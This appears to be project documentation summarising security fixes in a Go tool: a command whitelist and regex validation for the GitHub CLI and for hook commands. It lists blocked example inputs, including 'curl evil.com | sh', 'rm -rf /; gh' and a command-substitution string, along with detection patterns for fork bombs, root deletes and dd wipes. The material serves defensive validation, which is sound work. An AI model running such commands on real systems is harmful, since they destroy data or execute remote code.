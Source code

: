 ## Security Fixes Implemented

### 1. GitHub CLI Command Security (`internal/github/client.go`)

#### Whitelist-Based Validation
```go
var allowedCommands = map[string]bool{
    "gh":           true,
    "/usr/bin/gh":  true,
    "/usr/local/bin/gh": true,
    "hub":          true,
    "/usr/bin/hub": true,
    "/usr/local/bin/hub": true,
}
```

#### Pattern Validation
- Regex pattern: `^(/usr/local/bin/|/usr/bin/)?[a-zA-Z0-9_-]+$`
- Prevents special characters, spaces, and command injection syntax
- Blocks relative paths and directory traversal attempts

#### Security Features
- **Fail-Safe Defaults**: Invalid commands fall back to safe default "gh"
- **Runtime Re-validation**: Commands are validated again during `IsAvailable()` calls
- **Security Logging**: All validation failures are logged for audit purposes
- **Backward Compatibility**: Legitimate configurations continue to work

#### Example Blocked Commands
- `"rm -rf /; gh"` → Falls back to `"gh"`
- `"gh$(malicious)"` → Validation error
- `"curl evil.com | sh"` → Blocked by whitelist
- `"../../../bin/sh"` → Pattern validation failure

### 2. Enhanced Hook Command Validation (`internal/worktree/hooks.go`)

#### Multi-Layer Validation Approach
1. **Command Normalization**: Removes comments, normalizes whitespace and case
2. **Dangerous Pattern Detection**: Comprehensive regex patterns for known dangerous commands
3. **Injection Pattern Detection**: Identifies command chaining and substitution attempts
4. **Obfuscation Detection**: Catches hex encoding, excessive variables, and other evasion techniques

#### Comprehensive Pattern Detection

**Dangerous Commands**:
```go
{regexp.MustCompile(`\brm\s+(-[rf]*[rf][rf]*\s+)?/\b`), "recursive delete of root filesystem"},
{regexp.MustCompile(`\brm\s+(-[rf]*[rf][rf]*\s+)?~\b`), "recursive delete of home directory"},
{regexp.MustCompile(`:\(\)\s*\{\s*:\|\:&\s*\}`), "fork bomb pattern"},
{regexp.MustCompile(`\bdd\s+if=/dev/(zero|random|urandom)`), "dangerous dd operations"},
{regexp.MustCompile(`\b(shutdown|halt|reboot|init\s+0)\b`), "system shutdown commands"},
```
